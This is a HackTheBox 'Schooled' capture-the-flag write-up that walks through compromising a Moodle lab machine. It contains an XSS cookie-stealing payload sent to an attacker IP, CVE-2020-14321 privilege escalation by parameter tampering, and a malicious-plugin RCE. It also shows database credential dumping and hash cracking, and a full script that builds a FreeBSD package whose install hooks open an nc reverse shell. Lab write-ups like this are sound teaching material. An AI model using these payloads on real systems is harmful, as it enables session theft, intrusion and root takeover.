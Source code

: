 ```yaml
---
title: HackTheBox - Schooled Writeup
date: 2021-05-06 09:45:47 +07:00
categories: hackthebox
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Schooled Writeup.
---
```


<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/3e2a599fda2f510f3a5f2146fae928ee.png">
</p>


Get ready to be schooled trying this one!

*[Find the official room for Hackthebox's - Schooled here!](https://app.hackthebox.eu/machines/335)*


----------------------------------------------------------------------------------------------------

## ENUMERATION

Beginning enumeration with nmap using a default script and version scan with the verbosity on to see open ports on the fly without having to wait for the scan to finish. Ports 22,80 are found open.

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled1.png)

Scanning for all ports using nmap shows **mysql** is running on port **33060**. Trying to see if we can remotely access the database results in no access.

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled2.png)

Moving on, we begin by looking at port 80 as always.
- Looking at page source suggests for adding an entry in our hosts list. Add `schooled.htb     <corresponding IP>` to your `/etc/hosts` file and continue browsing the site. 
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled3.png)
- Looking at the about us page . We discover The possble CMS used is - **Moodle**
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled4.png)
- Looking at the Teachers page , we find a bunch of possible unames and roles. Add them to a `user.list` file.
    ```bash
    Jane Higgins :- Scientific Research lecturer
    Lianne Carter:- Manager and English Teacher
    Manuel Phillips:- Mathematics Teacher
    Jamie Borham:- Information Technology lecturer
    ```
- Directory bruteforcing using `gobuster` dosent result in anything too useful.
- So far info discovered:
    ```bash
    mail: admissions@schooled.htb
    From wappalyzer: Php 7.4.15, Apache2, Bootstrap 4.1.0
    ```
- Nothing seems too useful so far. No admin/login panels were found so far.
- Using `gobuster` for `vhost` bruteforcing we find: `moodle.schooled.htb`
- Add `moodle.schooled.htb` to your `/etc/hosts` list and browse to it as before.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled5.png)
- Visiting the page lets us signup without a confirmation.
- Abuse this to create an account next. While signing up the mail naming convention is name@student.schooled.htb.
- After unsuccesfull attempts to upload a payload and get rce, what is odd is that `Manuel Phillips` (teacher) was online and the owner of the maths course. A Possible XSS attack could be attempted.
- On Looking for the Moodle versions and [CVE] we find 2 major.
- Looking at the announcement section Manuel Phillips hints at the MoodleNet Profile in the user settings section. This could be used as the potential XSS avenue. 


----------------------------------------------------------------------------------------------------

## FOOTHOLD:

- Setup a `xss-server` with this [simple python script](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py). 
- Start the server. 
- Enroll in the maths course .
- Use this xss payload: `<img src=x onerror=this.src='http://10.10.14.51:8888/?'+document.cookie;>`
- Paste it in the user settings section
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled6.png)
- Wait for a few seconds and recieve the teachers cookie on your `xss-server`.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled7.png)
- Copy this `cookie --> Inspect Element --> Storage --> replace MoodleSession's value to the cookie`. Refresh the pg/F5 to. You're Now Manuel Phillips (Teacher).

### PRIVILEGE ESCALATION: TEACHER --> MANAGER --> ADMIN

- A interesting site is found while searching for exploits: [moodle_priv_esc](https://moodle.org/security/index.php?o=3&p=2)
- This shows that  a privesc was possible from teacher to manager role is possible by exploiting the course enrollment functionality. 
- Looking at our `users.txt` we know that Lianne Carter is a manager and we could possibly perform the exploit with this user.
- Looking up the cve on github a POC is found: [exploit_poc](https://github.com/HoangKien1020/CVE-2020-14321)
- Steps to perform this privesc:
    - Go to the maths section as `teacher --> Participants`.
    - Click on the Enroll Users option and enroll Lianne carter. Switch on intercept in burp and intercept the passed request.
    - Send the request to repeater and change the following 2 values to match that of your current teacher(`id=24`).
    - Changed these params to match: `userlist%5B%5D=24&roletoassign=1`. (Changing user id to teachers id == 24 and changing role to admin == 1)
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled8.png)
- Send the request and stop intercept after.
    - From here click on Lianne carter's profile from the below list. Note to see the difference and an Administration button appear on the side.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled9.png)
- Click on it and now we have manager privileges.
- From the POC discussed above we can add even more privileges to allow us to install a plugin of choice. To do this click on site administration from here.
- Click on `Users --> define roles`.  Click on the 'edit' icon in the manager role. Turn intercept on before you do and add the payload from the POC described. Forward the request to get admin privileges.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled10.png)
- Next grab `rce.zip` from [here](https://github.com/HoangKien1020/Moodle_RCE)
- Unzip the file. Modify `block_rce.php` file to a standard php reverse shell of your choosing. Zip back the contents using `zip -r -q lala.zip rce`
- Click on install plugin after `upload --> continue`. You will see a screen with current information. Dont go past it . Time to trigger the rce.
- Setup an `nc` listener , Open a new tab and  trigger the exploit using this link **http://moodle.schooled.htb/moodle/blocks/rce/lang/en/block_rce.php**
- We now have a shell. 


----------------------------------------------------------------------------------------------------


## POST EXPLOITATION

**user.txt:**

- Poking around and looking for config files, we find the apache and moodle data directory as `usr/local/www/apache24/data/moodle/`.
- Checking the contents of the **config.php** file in dir:
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled11.jpg)
- We get database creds as *moodle:P################0* .
- Notice that mysql dosent exist in PATH. We find mysql using the basic find command: `find / -name mysql 2> /dev/null`
- Mysql is at `/usr/local/bin/mysql`.
- We perform 3 basic queries now to enumerate the database: 
    - First cd to /usr/local/bin.
- Then:
    - `mysql -u moodle -pPlaybookMaster2020 -e 'show databases;'` --> infer moodle as the db name.
    - `mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; show tables;'`  --> infer mdl_user could be of interest.
    - `mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; select * from mdl_user;'` --> DB creds dump. 
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled12.png)
- Jamie's account here is of interest as he is one of the users on the box.
- This hash is a `bcrypt hash`.
- Use john the ripper to crack the hash:
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled13.jpg)
- Jamies creds: *jamie:!#####x*
- Now ssh over with these creds.
- Grab `user.txt` from jamie's home directory.

**root.txt**

- Performing a basic `sudo -l`:
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled14.png)
- Poking around the internet and doing some good research on what the command is we find that it is a distinct binary that is replaced by the bootstrapped binary during the initial installation process.
- We can use this to probably install a custom package with code modified to privilege escalate to root.
- [Refer this article](http://lastsummer.de/creating-custom-packages-on-freebsd/)
- After reading the article put it all as a single script and modify parts of it as per your host listener. Use`nc` shells as the box has netcat and bsd just wouldn't work well with regular bash shells.
- The script :
    ```bash
    #!/bin/sh
    STAGEDIR=/tmp/stage
    rm -rf ${STAGEDIR}
    mkdir -p ${STAGEDIR}
    cat >> ${STAGEDIR}/+PRE_DEINSTALL <<EOF
    # careful here, this may clobber your system
    echo "Resetting root shell"
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
    EOF
    cat >> ${STAGEDIR}/+POST_INSTALL <<EOF
    # careful here, this may clobber your system
    echo "Registering root shell"
    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.52 9001 >/tmp/f
    EOF
    cat >> ${STAGEDIR}/+MANIFEST <<EOF
    name: mypackage
    version: "1.0_5"
    origin: sysutils/mypackage
    comment: "automates stuff"
    desc: "automates tasks which can also be undone later"
    maintainer: john@doe.it
    www: https://doe.it
    prefix: /
    EOF
    echo "deps: {" >> ${STAGEDIR}/+MANIFEST
    pkg query "  %n: { version: \"%v\", origin: %o }" portlint >> ${STAGEDIR}/+MANIFEST
    pkg query "  %n: { version: \"%v\", origin: %o }" poudriere >> ${STAGEDIR}/+MANIFEST
    echo "}" >> ${STAGEDIR}/+MANIFEST
    mkdir -p ${STAGEDIR}/usr/local/etc
    echo "# hello world" > ${STAGEDIR}/usr/local/etc/my.conf
    echo "/usr/local/etc/my.conf" > ${STAGEDIR}/plist
    pkg create -m ${STAGEDIR}/ -r ${STAGEDIR}/ -p ${STAGEDIR}/plist -o .
    ```
- Save the script and make it an executable: `chmod +x script.sh`
- Execute the script and note to see a package made named: `mypackage-1.0_5.txz`
- Run : `sudo /usr/sbin/pkg install --no-repo-update mypackage-1.0_5.txz` (`--no-repo-update` to stop it from checking an online source) and start a listener.
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled15.png)
    - ![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/ctf/HackTheBox_Schooled_Writeup/images/schooled16.png)
- Grab `root.txt` from the root home directory.

--------------------------------------------------------------


